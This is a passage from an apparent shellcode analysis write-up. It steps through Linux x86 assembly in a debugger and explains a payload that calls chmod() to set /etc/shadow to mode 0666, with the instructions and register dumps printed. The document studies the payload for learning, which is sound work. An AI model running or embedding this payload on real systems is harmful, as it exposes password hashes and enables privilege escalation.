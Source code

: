```
0028| 0xbffff388 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x00402040 in code ()
```

## chmod()

Our first chunk of assembly, which is the majority of the instructions is as follows:

```nasm
cdq				; sets edx to 0
push   0xf			; chmod() 
pop    eax			; 
push   edx			; 0
call   0x402056 <code+22>	; call code+22 and push string to stack stored in next instruction
das    				; start of "/etc/shadow" string
gs je  0x4020b1
das    
jae    0x4020b9
popa   
outs   dx,DWORD PTR fs:[esi]
ja     0x402056 <code+22>	; end of string
pop    ebx			; "/etc/shadow" into ebx
push   0x1b6			; 0666 in octal
pop    ecx			; 
int    0x80			; execute chmod()
```

We have a few instructions setting up the chmod() syscall which is defined as 15 in `/usr/include/i386-linux-gnu/asm/unistd_32.h`. Once again we can see a CALL instruction which pushes the filename being changed to the stack for later use.   

```
[----------------------------------registers-----------------------------------]
EAX: 0xf 
EBX: 0x402000 --> 0x1efc 
ECX: 0x15 
EDX: 0x0 
ESI: 0x1 
EDI: 0xb7fa3000 --> 0x1b9db0 
EBP: 0xbffff388 --> 0x0 
ESP: 0xbffff364 --> 0x40204a ("/etc/shadow")
EIP: 0x402056 --> 0x1b6685b
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x402051 <code+17>:	popa   
   0x402052 <code+18>:	outs   dx,DWORD PTR fs:[esi]
   0x402054 <code+20>:	ja     0x402056 <code+22>
=> 0x402056 <code+22>:	pop    ebx
   0x402057 <code+23>:	push   0x1b6
   0x40205c <code+28>:	pop    ecx
   0x40205d <code+29>:	int    0x80
   0x40205f <code+31>:	push   0x1
[------------------------------------stack-------------------------------------]
0000| 0xbffff364 --> 0x40204a ("/etc/shadow")
0004| 0xbffff368 --> 0x0 
```
